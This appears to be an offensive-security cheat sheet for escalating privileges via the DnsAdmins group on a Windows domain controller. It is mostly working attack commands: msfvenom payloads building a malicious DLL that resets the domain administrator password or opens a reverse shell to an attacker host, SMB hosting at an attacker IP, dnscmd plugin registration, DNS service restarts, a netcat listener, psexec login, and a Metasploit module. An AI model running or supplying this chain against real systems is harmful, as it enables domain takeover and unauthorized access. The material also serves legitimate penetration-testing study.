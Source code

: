 ### A user that is a member of the DnsAdmins group, has the ability to use dnscmd.exe to specify a plugin DLL that should be loaded by the DNS service.

### We can create our own malicious .dll payload with msfvenom to escalate privileges

### Steps:

## Enumeration

    Get-NetGroupMember -GroupName "DNSAdmins"

    Get-ADGroupMember -Identity DNSAdmins

## Exploitation

#### 1) Craft malicious dll file

    msfvenom -p windows/x64/exec cmd='net user administrator P@55w0rd123! /domain' -f dll > pwn.dll

#### 2) Host the file remotely

    sudo smbserver.py share ./ 

#### 3) Set the remote DLL path into the windows registry

    cmd /c dnscmd localhost /config /serverlevelplugindll \\OUR_IP\share\pwn.dll 

#### 4) Restart the DNS service to execute our malicious dll

    sc.exe stop dns

#### 5) 

    sc.exe start dns 

#### 6) 

    sudo psexec.py DOMAIN.LOCAL/administrator@DC_IP

#### 7) PWN3D!

## Alternate Method: DNSServer module

    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All

    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"

    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose

### Check for successful previous command

    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

## OR

### 1) Create reverse shell payload

    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=80 -f dll > exploit.dll

### 2) Once the malicious DLL has been uploaded to the target the following command can be used to register the DLL.

    dnscmd.exe <DCName> /config /serverlevelplugindll <PathToDLL>
    dnscmd.exe dc01 /config /serverlevelplugindll C:\Users\Moe\Documents\exploit.dll

### 3) Setu a listener on attacker machine

    sudo nc -lvp 80

### 4) From here stopping the DNS service and starting it again will spawn a SYSTEM shell to the netcat listener.

    sc.exe stop dns
    sc.exe start DNS

## Alternate Method: Metasploit

    use exploit/windows/local/dnsadmin_serverlevelplugindll
